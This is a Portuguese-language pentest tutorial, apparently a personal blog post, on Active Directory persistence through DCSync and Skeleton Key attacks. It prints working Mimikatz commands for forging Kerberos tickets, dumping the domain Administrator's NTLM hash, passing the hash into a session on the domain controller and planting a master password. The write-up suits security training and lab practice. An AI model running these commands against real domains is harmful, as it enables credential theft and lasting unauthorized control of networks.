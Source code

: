 ```yaml
---
title: "Active Directory - Persistência no Domínio"
tags: [Windows, Active Directory]
categories: ActiveDirectory
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia.png)

# Considerações Iniciais

Aqui vamos abordar duas técnicas muito utilizadas quando se fala de persistência em ambientes de Active Directory, o ataque de `DCSync` e o `Skeleton Key`

É importante notar que devemos ter acesso do Domain Controller pra realizar esses ataques, uma vez que estão atrelados à pós-exploração.

## DCSYnc

Com o ataque de DCSync vamos ter acessso ao hash do Administrator da DC e consequentemetne a máquina através do PTH

A ideia é parecida com a do Constrained Delegation, só que vamos gerar tickets para o LDAP e através desse ticket gerado pegar o hash do administrator!

Geramos o ticket para LDAP e injetamos ele

```
tgt::ask /user:dbservice /domain:DOMÍNIO /ntlm:HASH_DO_DBSERVICE /ticket:dbservice.kirbi
tgs::s4u /tgt:TGT_dbservice@XXXX_krbtgt~XXXX@XXXX.kirbi /user:Administrator@XXXX /service:time/XXXXX.local|ldap/XXXX.local
Invoke-Mimikatz -Command '"kerberos::ptt TGS_Administrator@XXXX@XXXX_ldap~XXXX@XXXX_ALT.kirbi"'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia1.png)

Agora executamos o ataque de DCSync e extraimos o hash do administrator

`Invoke-Mimikatz -Command '"lsadump::dcsync /user:usfun\Administrator"'`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia2.png)

Bom, com o hash fica fácil de fazermos um PTH e ter acesso ao DC

```
Invoke-Mimikatz -Command '"sekurlsa::pth /user:administrator /domain:XXXXXX /ntlm:hash_administrator_dc /run:powershell.exe"'
Enter-PSSession -ComputerName dc
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/persistencia3.png)

Esse foi o ataque de `DCSync`, a partir do Constrained delegation conseguimos gerar tickets para o LDAP e sendo assim extrair o hash ntlm do administrator do DC!

## Skeleton Key

O próximo ataque é chamado de `Skeleton Key`, ele tem esse nome por que vai nos permitir acessar qualquer máquina do domínio com uma senha mestre, a partir do momento que tomamos o controle do DC.

Note que aqui é necessário já estar dentro da máquina, então executando esse ataque após um DCSync, por exemplo

Após ter tomado o controle do DC, com um shell reverso mesmo.

"Baixamos" o mimikatz para a máquina `TEM QUE SER O EXECUTÁVEL` e executamos o ataque

```
privilege::debug
misc::skeleton
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/enc.png)

Pronto! Feito! Agora acessamos qualquer máquina desse domínio com a credencial `mimikatz`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/enc1.png)

É importante ressaltar que esse ataque só pode ser feito uma vez, então caso quando você tente fazer dê erro, pode ser que alguém já tenha realizado nele no domínio.